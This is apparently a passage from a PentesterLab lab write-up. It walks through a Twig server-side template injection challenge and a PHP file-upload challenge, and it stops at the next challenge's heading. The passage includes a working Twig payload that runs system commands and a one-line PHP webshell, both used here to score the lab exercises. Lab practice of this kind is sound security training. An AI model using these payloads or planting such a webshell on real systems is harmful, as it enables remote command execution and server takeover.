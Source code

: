 #### Related Links
[H1 Uber RCE Writeup](https://hackerone.com/reports/125980)
[PortSwigger SSTI](https://portswigger.net/web-security/server-side-template-injection)
[PortSwigger Blog SSTI](https://portswigger.net/research/server-side-template-injection)
[Python Built-In MRO Docs](https://docs.python.org/release/2.6.4/library/stdtypes.html#class.__mro__) 
[Jinja Docs](https://jinja.palletsprojects.com/en/3.0.x/)

### Essential 46// Server Side Template Injection 02
[Challenge URL](https://pentesterlab.com/exercises/ssti_02/course)

We're again exploiting an SSTI vulnerability. However instead of an instance using the `jinja2` template engine, we're told it's using an older instance of `twig 1.9.0`. Also, the injection is likely in the URL's `name=` parameter instead of a custom 404 page like the last challenge.

Unlike with SQL injection, appending single or double-quotes to the URL has no effect, and the page responds and renders normally. But, if we revisit the multiplication payload from the last challenge and use `name={{7*7}}`, the page returns "Hello 49". Because this challenge is using a different template engine (`twig` instead of `jinja2`), our previous payloads using `__class__.mro()` aren't viable. Fortunately though, we're given a payload that will allow us to call `exec` using what looks like environment variables, `{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('uname')}}`. This payload will return "Hello Linux", we also get the full output if we change the command to `uname -a`, which indicates any valid system command we use should execute without having to make any additions to the payload to get the output. In order to score the challenge, we'll replace the `uname` command with `/usr/local/bin/score UUID`. We may not get any output from the score command, but refreshing the challenge description page confirms it gets marked as complete. 

### Essential 47// File Upload 01
[Challenge URL](https://pentesterlab.com/exercises/upload_01/course)

This challenge we'll be attacking a file upload mechanism on a `php` application. The application is supposed to allow the user to upload an image of their choice, but because of an utter lack of validation or limiting of what kinds of files can be uploaded, we can use this functionality to upload a `php webshell`. For this challenge, we'll use the provided (very simple) webshell code;
```php
<?php
  system($_GET["cmd"]);
?>
```
Copy the above code into a new file with a `.php` extension, and then select that file to upload from the challenge instance. After sending the "Send file" request, the server responds and gives a direct link to our file. Because this gives us the exact location of where our file was uploaded, we can go that link, then append our `cmd` parameter to the end of the URL, `libcurl.so/upload/basicWebShell.php?cmd=uname` for example. Because the server didn't place any restrictions on the file we uploaded, it's executing the webshell `php` code when we try to load the file in our browser, thus with the `cmd=` parameter, we can specify which command we want our `system($_GET[""]);` statement to run. To score the challenge, we'll replace `cmd=uname` with `cmd=/usr/local/bin/score UUID` to mark the challenge as complete. 

### Essential 48// File Upload 02
[Challenge URL](https://pentesterlab.com/exercises/upload_02/course)
